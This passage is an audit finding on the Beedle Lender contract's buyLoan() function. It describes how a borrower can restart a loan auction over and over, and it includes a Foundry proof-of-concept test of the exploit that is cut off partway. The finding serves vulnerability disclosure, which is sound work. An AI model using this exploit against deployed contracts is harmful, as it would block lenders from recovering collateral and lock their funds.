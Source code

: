 ## Vulnerability Details

The [Lender.sol:buyLoan()](https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L465) function helps to anyone to buy a loan which is in auction process. The [poolId parameter](https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L464) specify the poolId which will accept the loan.

The problem is that a malicious borrower can call the `buyLoan()` function using the same loan's `poolId` as a parameter. I created a test where the malicious borrower can restart the lender auction. Test steps:

1. Lender1 creates a pool and borrower borrows debt 100/collateral 100 from the Lender1.
2. Lender1 kicks off the auction.
3. The borrower maliciously buys the loan using the same old poolID from the Lender1.
   The malicious borrower doesn't need to deposit any token amount.
4. The Lender1 auction is restarted. The malicious borrower can repeat the process
   causing the lender to be unable to get the collateral.

```solidity
// test/Lender.t.sol:LenderTest
// $ forge test --match-test "test_maliciousBorrower_restartAuction_viaBuyLoan" -vvv
//
    function test_maliciousBorrower_restartAuction_viaBuyLoan() public {
        // Malicious borrower can restart the loan auction causing that the lender to be unable to get the collateral
        // 1. Lender1 creates a pool and borrower borrows debt 100/collateral 100 from the Lender1.
        // 2. Lender1 kicks off the auction.
        // 3. The borrower maliciously buys the loan using the same old poolID from the Lender1.
        //    The malicious borrower doesn't need to deposit any token amount.
        // 4. The Lender1 auction is restarted. The malicious borrower can repeat the process
        //    causing the lender to be unable to get the collateral.
        //
        // 1. Lender1 creates a pool and borrower borrow debt 100/collateral 100 from the Lender1.
        //
        test_borrow();
        bytes32 poolIdLender1 = lender.getPoolId(lender1, address(loanToken), address(collateralToken));
        (,,,,uint256 poolBalance,,,,) = lender.pools(poolIdLender1);
        // assert loan debt and pool balance
        assertEq(lender.getLoanDebt(0), 100*10**18);
        assertEq(poolBalance, 900 * 10**18);
        // accrue interest
        vm.warp(block.timestamp + 364 days + 12 hours);
        //
        // 2. Lender1 kicks off the auction.
        //
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        vm.prank(lender1);
        lender.startAuction(loanIds);
        (,,,,,,,,uint256 auctionStartTime,) = lender.loans(0);
        assertEq(auctionStartTime, block.timestamp);
        // warp to middle of auction
        vm.warp(block.timestamp + 12 hours);
        //
        // 3. The borrower maliciously buys the loan using the same old poolID from the Lender1.
        //    The malicious borrower doesn't need to deposit any token amount.
        //
        vm.startPrank(borrower);
        lender.buyLoan(0, poolIdLender1);
        //
        // 4. The Lender1 auction is restarted. The malicious borrower can repeat the process
        //    causing the lender to be unable to get the collateral.
        //
```